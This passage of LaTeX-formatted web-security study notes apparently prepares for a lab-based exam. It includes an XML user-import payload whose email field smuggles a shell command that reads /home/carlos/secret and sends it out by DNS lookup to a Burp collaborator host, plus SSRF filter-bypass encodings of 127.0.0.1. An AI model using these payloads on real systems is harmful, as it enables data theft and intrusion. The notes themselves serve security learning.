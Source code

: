 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{quote}
\url{https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/}
\end{quote}

\subsubsection{6. Admin user import via
XML}\label{6-admin-user-import-via-xml}

\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Example1</username>
        <email>example1@domain.com&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`</email>
    </user>
</users>
\end{Verbatim}

\section{Server-side request forgery
(SSRF)}\label{server-side-request-forgery-ssrf}

\subsection{Approach}\label{approach-7}

One of my favorites, quite easy to understand.\\
\textbf{ATTENTION:} If you find an SSRF vulnerability on exam, you can
use it to read the files by accessing an internal-only service running
on locahost on port 6566.

In addition to lab cases, I\textquotesingle ve got some other useful
techniques about this type:\\
SSRF Bypass:

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
- Type in http://2130706433 instead of http://127.0.0.1
- Hex Encoding 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
- Octal Encoding 127.0.0.1 translates to 0177.0.0.01
- Mixed Encoding 127.0.0.1 translates to 0177.0.0.0x1

https://h.43z.one/ipconverter/
\end{Verbatim}
\end{document}
